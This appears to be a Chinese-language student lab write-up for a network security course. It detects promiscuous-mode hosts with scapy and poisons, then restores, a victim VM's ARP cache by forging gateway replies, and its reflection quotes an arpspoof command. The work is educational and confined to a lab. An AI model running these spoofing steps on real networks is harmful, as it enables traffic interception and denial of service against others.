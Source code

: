 # 第四章实验：网络监听

## 实验准备

网络中的节点基本信息如下：

- 攻击者主机：Kali
  - 08:00:27:0b:04:81 / eth0
  - 172.16.111.144
- 受害者主机：Kali
  - 08:00:27:52:c6:b2/ eth0
  - 172.16.111.108
- 网关：Debian
  - 08:00:27:10:ea:af/ enp0s9
  - 172.16.111.1

### 安装scapy

- 在攻击者主机上安装scapy、安装 python3
  
  `sudo apt update && sudo apt install python3 python3-pip`

   `pip3 install scapy[complete]`

   ![scapy安装成功展示](images/scapy_install_sucess.png)

##  实验一：检测局域网中的异常终端

- 在受害者主机上检查网卡的「混杂模式」是否启用 ( 这里应该没有出现 PROMISC 字符串)

  `ip link show eth0`

  ![实验前检查混杂模式状态](images/check_promisc.png)

- 在攻击者主机上开启 scapy

  `sudo scapy`


- 在 scapy 的交互式终端输入以下代码回车执行

  `pkt = promiscping("172.16.111.108")`

 

-  回到受害者主机上手动开启该网卡的「混杂模式」

   `sudo ip link set eth0 promisc on`

- 再次检查混杂模式状态，发现输出结果里多出来了 PROMISC 
  
  `ip link show eth0`
 
   ![再次检查混杂模式状态](images/recheck_promisc.png)

- 回到攻击者主机上的 scapy 交互式终端继续执行命令

  `pkt = promiscping("172.16.111.108")`

 - 两次pkt结果对比
  
   ![两次pkt结果对比](images/pkt_result_compare.png)

- 在受害者主机上手动关闭该网卡的「混杂模式」

  `sudo ip link set eth0 promisc off`

##  实验二：手工单步“毒化”目标主机的 ARP 缓存
受害者主机初始ARP缓存信息

   ![受害者初始ARP](images/init_arp.png)

以下代码在攻击者主机上的 `scapy` 交互式终端完成


- 构造一个 ARP 请求

  `arpbroadcast = Ether(dst="ff:ff:ff:ff:ff:ff")/ARP(op=1, pdst="172.16.111.1")`

- 查看构造好的 ARP 请求报文详情
  
  `arpbroadcast.show()`

- 发送这个 ARP 广播请求
 
  `recved = srp(arpbroadcast, timeout=2)`

  ![在攻击者主机上构造ARP结果展示](images/attacker_arp.png)



- 伪造网关的 ARP 响应包，准备发送给受害者主机 172.16.111.108，ARP 响应的目的 MAC 地址设置为攻击者主机的 MAC 地址

  `arpspoofed=Ether()/ARP(op=2, psrc="172.16.111.1", pdst="172.16.111.108",hwdst="08:00:27:0b:04:81")`

- 发送上述伪造的 ARP 响应数据包到受害者主机

  `sendp(arpspoofed)`

   ![发送伪造的 ARP 响应数据包到受害者主机](images/fake_arp.png)
  

- 此时在受害者主机上查看 ARP 缓存，会发现网关的 MAC 地址已被「替换」为攻击者主机的 MAC 地址

   `ip neigh`

   ![接受伪造ARP的受害者主机ARP缓存表](images/changed_arp.png)

回到攻击者主机上的 scapy 交互式终端继续执行命令。

- 恢复受害者主机的 ARP 缓存记录

  - 伪装网关给受害者发送 ARP 响应
 
    `restorepkt1 = ARP(op=2, psrc="172.16.111.1", hwsrc="08:00:27:10:ea:af", pdst="172.16.111.108", hwdst=" 08:00:27:52:c6:b2")`
 
    `sendp(restorepkt1, count=100, inter=0.2)`

    ![伪造网关ARP](images/fake_gateway_arp.png)

此时在受害者主机上准备“刷新”网关 ARP 记录。

- 在受害者主机上尝试 ping 网关
 
  `ping 172.16.111.1`

- 静候几秒 ARP 缓存刷新成功，退出 ping

- 查看受害者主机上 ARP 缓存，已恢复正常的网关 ARP 记录
  
  `ip neigh`

   ![查看恢复的受害者主机ARP缓存表](images/recover_arp.png)

## 思考与反思
- 实验相对简单，做完实验想尝试直接在攻击者主机命令行里利arpspoof -i eth0 -t 172.16.111.108 172.16.111.1实现一下ARP攻击不能上网，但在kali中一直报错：找不到arpspoof。但该虚拟机已装有arpspoof,应该猜测是更新问题，需要执行sudo apt-install update && sudo apt-install upgrade.但依旧没解决问题==
 
   ![arpspoof_install_wrong](images/extra_wrong.png)
## 参考
- [黄药师课件](https://c4pr1c3.github.io/cuc-ns/chap0x04/exp.html)